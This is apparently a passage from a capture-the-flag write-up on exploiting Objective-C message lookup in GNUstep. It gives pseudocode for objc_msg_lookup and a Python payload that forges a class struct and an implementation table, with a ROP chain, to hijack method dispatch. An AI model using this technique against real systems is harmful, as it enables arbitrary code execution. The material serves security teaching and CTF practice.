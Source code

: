 Pseudocode:

```
objc_msg_lookup(instance* inst, uint64* sel):
    uint64 selv = *sel
    class * cls = inst->class # offset 0x00

    imp_tbl_struct * its = cls->its # offset 0x40
    uint32 sel_low = selv & 0xffffffff
    uint32 sel_high = selv >> 32

    if (sel_low + (sel_high << 5)) >= its->length: # offset 0x28
        # ... irrelevant code
    else:
        return its->table[sel_low][sel_high] # offset 0x00
```

## The Attack

For our attack payload, we put a pointer to our fabricated class struct further
in the payload at offset 0x00, and then left a bit of space for a ROP chain and
data.

After that, we added another pointer, which through our crafted class pointer
lies exactly at offset 0x40, meaning it is the pointer to the implementation
table struct.

We offset the implementation table struct in such a way, that it points directly
after the pointer to it, so that in the payload, all the pointers lie next to
each other.

Since the observed selector value in the `gnustep-base` library from `libs.zip`
was 0x0000001500000064, assuming the values are the same on the remote server,
we can adjust the first table-level to point just after the previous pointer in
the payload, and similar for the second table level.

This leaves us with this payload:

```py
method = 0x4141414141414141
base_vtable = 0x90
base_data = 0x80

payload = (
    p64(turtle + base_vtable + 0x00 - 0x040) + # class

    rop.chain().ljust(base_data - 8, b"\0") +
    data.ljust(base_vtable - base_data, b"\0") +

    p64(turtle + base_vtable + 0x08 - 0x000) + # imp_table_struct
    p64(turtle + base_vtable + 0x10 - 0x64 * 8) + # tbl_level1
    p64(turtle + base_vtable + 0x18 - 0x15 * 8) + # tbl_level2
    p64(method)
)
```
